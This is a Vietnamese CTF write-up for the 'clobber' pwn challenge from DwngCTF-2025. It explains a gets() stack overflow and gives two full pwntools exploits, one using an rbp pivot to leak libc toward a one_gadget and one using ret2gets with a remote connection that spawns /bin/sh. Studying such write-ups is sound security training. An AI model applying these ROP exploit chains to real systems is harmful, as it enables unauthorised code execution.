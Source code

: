 ```yaml
--- 
title: DwngCTF-2025
date: 2025-02-16 
description : 'DwngCTF-2025'
tags: ['rop']
author: ['kuvee']
draft: false
---
```



## clobber

- các bài trước khá dễ nên mình sẽ không đề cập , và bài này khá là vui nên mình sẽ ghi writeup về nó 


- nhìn qua thì ta thấy ngay đây chỉ là 1 bài `bof` đơn giản , tuy nhiên bài này sẽ không có các gadget như `pop_rdi` , `pop_rsi` , nên ta phải cần pivot hoặc là sử dụng `ret2gets` 

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(_bss_start, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);
  gets(s);
  puts(s);
  return 0;
}
```

- ý tưởng rất đơn giản , trước khi `puts` thì ta thấy nó sẽ setup 1 số thứ để in ra , và ở đoạn này ta hoàn toàn có thể control được `rbp` -> ta có thể control được dữ liệu mà nó leak ra 

![image](https://hackmd.io/_uploads/rJZhnEX1xx.png)

- ta có thể lựa 1 địa chỉ nào đó chứa địa chỉ libc như `got` hoặc là ta cũng có thể chọn `stdout` , `stdin` , `stderr`  , ở trường hợp này `stderr` có vẻ dễ hơn vì nó không ghi đè bất cứ giá trị quan trọng nào nhưng mình chọn `rbp` này là `got@puts`


- trước hết muốn in ra thì ta cần overwrite đoạn mà khi puts xong nó return về , ở đây space mà ta có thể ghi để return về 1 `bss` khác là 50 bytes , vừa đủ để không overwrite dính vào `stdout` 

![image](https://hackmd.io/_uploads/rklA6Emyex.png)


- vì vậy mình sẽ setup 1 bss để khi in xong thì nó sẽ return về  và thực hiện một số điều để thõa mãn `one_gadget` :))

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwn import *

context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
context.update(arch="amd64", os="linux")
context.log_level = "debug"
exe = context.binary = ELF("./clobber_patched", checksec=False)
libc = exe.libc
log_levels = ["info", "error", "warn", "debug"]
info = lambda msg: log.info(msg)
error = lambda msg: log.error(msg)
warn = lambda msg: log.warn(msg)
debug = lambda msg: log.debug(msg)


def one_gadget(filename, base_addr=0):
    return [
        (int(i) + base_addr)
        for i in subprocess.check_output(["one_gadget", "--raw", "-l0", filename])
        .decode()
        .split(" ")
    ]


info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: (
    proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: (
    proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
)
sn = lambda num, proc=None: (
    proc.send(str(num).encode()) if proc else p.send(str(num).encode())
)
sna = lambda msg, num, proc=None: (
    proc.sendafter(msg, str(num).encode())
    if proc
    else p.sendafter(msg, str(num).encode())
)
sln = lambda num, proc=None: (
    proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
)
slna = lambda msg, num, proc=None: (
    proc.sendlineafter(msg, str(num).encode())
    if proc
    else p.sendlineafter(msg, str(num).encode())
)


def logbase():
    log.info("libc base = %#x" % libc.address)


def rcu(d1, d2=0):
    p.recvuntil(d1, drop=True)
    # return data between d1 and d2
    if d2:
        return p.recvuntil(d2, drop=True)


def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        sleep(1)
        pid = int(check_output(["pidof", "-s", "/app/run"]))
        gdb.attach(
            int(pid),
            gdbscript=gdbscript
            + f"\n set sysroot /proc/{pid}/root\nfile /proc/{pid}/exe",
            exe=exe.path,
        )
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)


gdbscript = """
b*0x00000000004011CA
b*0x00000000004011D6
b*0x00000000004011E1
c
"""

p = start()

# ==================== EXPLOIT ====================


def exploit():
    leave_ret = 0x00000000004011E0
    bss = 0x404000 + 0x600
    bss2 = 0x404000 + 0x400
    bss = 0x405000 - 0x100
    gets = 0x00000000004011BE
    puts = 0x4011CF
    stdout = 0x404040

    pl = flat(b"a" * 32, p64(0x404400 - 16), gets)
    sl(pl)

    pl1 = (
        b"a" * 32
        + p64(0x404010 + 0x20)
        + p64(gets)
        + p64(exe.got.puts + 0x20)
        + p64(puts)
        + b"a" * 0x10
        + p64(0x404430 + 0x20)
        + p64(gets)
    )
    sl(pl1)
    pl2 = b"a" * 0x10 + p64(bss2 + 0x20) + p64(leave_ret) + p64(bss2) + p32(leave_ret)
    sl(pl2)
    # pl3 = flat(b"a" * 0x20, exe.got.puts + 0x20, gets)
    info("payload3")
    # sl(pl3)

    p.recvlines(3)
    libc.address = u64(p.recv(6).ljust(8, b"\x00")) - libc.sym.puts
    logbase()
    pop_rdi = 0x000000000002A885 + libc.address
    binsh = next(libc.search(b"/bin/sh\x00"))
    pop_r12 = 0x0000000000028A82 + libc.address
    final = flat(b"c" * 32, bss2, pop_rdi, 0, pop_r12, 0, libc.address + 0xD0775)

    input()
    sl(final)

    p.interactive()


if __name__ == "__main__":
    exploit()
```

- 1 cách khác là sử dụng `ret2gets` , cái này khá rắc rối nên ta có thể hiểu là khi sử dụng `gets` thì nó sẽ để lại 1 địa chỉ libc ở `rdi` và thằng này sẽ là `_IO_stdfile_0_lock`

![image](https://hackmd.io/_uploads/rkc9lBmJxx.png)

- và ở đây giải thích khá chi tiết

![image](https://hackmd.io/_uploads/HyxY-Bmkel.png)

exp

```python
from pwn import *

context.terminal = "kitty"
elf = context.binary = ELF("./clobber_patched")
libc = ELF("./libc.so.6")
r = remote("clobber.umbccd.net", 13373)

payload = b"a" * 0x20
payload += p64(0x0)
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)

r.sendline(b"\x01")
r.sendline(p32(0x0) + b"A" * 4 + b"B" * 8)
r.sendline(b"CCCC")

r.recvline()
r.recv(8)
tls = u64(r.recv(6).ljust(8, b"\x00"))
libc.address = tls + 0x28c0
print("libc @", hex(libc.address))

payload = b"a" * 0x28
payload += p64(next(libc.search(asm("pop rdi; ret;"), executable=True)))
payload += p64(next(libc.search(b"/bin/sh\x00")))
payload += p64(libc.sym["system"])

r.sendline(payload)

r.interactive()
```